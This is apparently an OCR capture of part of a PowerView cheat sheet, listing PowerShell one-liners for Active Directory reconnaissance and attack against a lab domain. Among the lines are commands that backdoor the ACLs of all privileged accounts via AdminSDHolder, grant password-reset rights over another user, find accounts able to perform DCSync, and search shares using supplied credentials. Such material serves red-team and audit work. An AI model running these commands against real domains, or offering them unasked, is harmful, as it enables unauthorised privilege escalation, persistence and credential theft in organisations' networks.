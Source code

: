 ##### export a csv of all GPO mappings
Get-DomainGPOUserLocalGroupMapping | %{$_.computers = $_.computers -join ", "; $_} | Export-CSV -NoTypeInformation gpo_map.csv

##### use alternate credentials for searching for files on the domain
#####   Find-InterestingDomainShareFile == old Invoke-FileFinder
$Password = "PASSWORD" | ConvertTo-SecureString -AsPlainText -Force
$Credential = New-Object System.Management.Automation.PSCredential("DOMAIN\user",$Password)
Find-InterestingDomainShareFile -Domain DOMAIN -Credential $Credential

##### enumerate who has rights to the 'matt' user in 'testlab.local', resolving rights GUIDs to names
Get-DomainObjectAcl -Identity matt -ResolveGUIDs -Domain testlab.local

##### grant user 'will' the rights to change 'matt's password
Add-DomainObjectAcl -TargetIdentity matt -PrincipalIdentity will -Rights ResetPassword -Verbose

##### audit the permissions of AdminSDHolder, resolving GUIDs
Get-DomainObjectAcl -SearchBase 'CN=AdminSDHolder,CN=System,DC=testlab,DC=local' -ResolveGUIDs

##### backdoor the ACLs of all privileged accounts with the 'matt' account through AdminSDHolder abuse
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=testlab,DC=local' -PrincipalIdentity matt -Rights All

##### retrieve *most* users who can perform DC replication for dev.testlab.local (i.e. DCsync)
Get-DomainObjectAcl "dc=dev,dc=testlab,dc=local" -ResolveGUIDs | ? {
    ($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')
}

##### find linked DA accounts using name correlation
Get-DomainGroupMember 'Domain Admins' | %{Get-DomainUser $_.membername -LDAPFilter '(displayname=*)'} | %{$a=$_.displayname.split(' ')[0..1] -join ' '; Get-DomainUser -LDAPFilter "(displayname=*$a*)" -Properties displayname,samaccountname}

##### save a PowerView object to disk for later usage
Get-DomainUser | Export-Clixml user.xml
$Users = Import-Clixml user.xml

##### Find any machine accounts in privileged groups
Get-DomainGroup -AdminCount | Get-DomainGroupMember -Recurse | ?{$_.MemberName -like '*$'}

##### Enumerate permissions for GPOs where users with RIDs of ) -1000 have some kind of modification/control rights
Get-DomainObjectAcl -LDAPFilter '(objectCategory=groupPolicyContainer)' | ? { ($_.SecurityIdentifier -match '^S-1-5-.*-[1-9]\d{3,}$') -and ($_.ActiveDirectoryRights -match 'WriteProperty|GenericAll|GenericWrite|WriteDacl|WriteOwner')}
